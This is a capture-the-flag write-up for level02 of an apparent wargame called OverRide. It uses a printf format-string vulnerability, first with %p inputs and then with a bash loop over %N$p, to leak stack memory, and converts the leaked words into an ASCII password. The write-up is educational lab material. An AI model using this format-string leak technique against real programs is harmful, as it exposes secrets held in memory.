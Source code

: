 # level02


In this exercice, we will exploit a vulnerability in a printf call, first, let's try to see if we can print some addresses:

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p
--[ Password: %p %p %p %p
*****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a does not have access!
level02@OverRide:~$
```

We can see that a vulnerability, let's try to print the stack to see if we can find a pattern of addresses:

```bash
for ((i=0 ; i < 128; i++)); do echo "$i - %$i\$p" | ./level02; done | grep "does not have access"
```

We can see a pattern of addresses at the begining, after the initialisation:

```bash
10 - (nil) does not have access!
11 - (nil) does not have access!
12 - (nil) does not have access!
13 - (nil) does not have access!
14 - (nil) does not have access!
15 - (nil) does not have access!
16 - (nil) does not have access!
17 - (nil) does not have access!
18 - (nil) does not have access!
19 - (nil) does not have access!
20 - 0x100000000 does not have access!
21 - (nil) does not have access!
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
```

We will convert the addresses to big endian, to do so, we will use [this tool](https://www.save-editor.com/tools/wse_hex.html):

4868373452506E75
51397361354A4145
58674E5743717A37
7358476E68354A35
4D394B6650673348

Now, we will use a second tool to convert the hex to ascii: [this one](https://www.rapidtables.com/convert/number/hex-to-ascii.html):

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H